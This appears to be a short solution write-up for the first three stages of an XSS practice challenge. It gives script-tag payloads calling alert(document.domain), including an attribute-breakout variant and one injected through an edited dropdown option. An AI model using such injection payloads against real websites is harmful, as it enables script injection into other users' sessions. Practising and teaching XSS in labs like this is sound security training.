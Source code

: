 ### Stage #1
**Payload:** `<script>alert(document.domain)</script>`


### Stage #2
**Payload:** `"><script>alert(document.domain)</script>//`


### Stage #3
Go to inspect and change a option (e.g. USA) to `<script>alert(document.domain)</script>`
Then choose this and click search

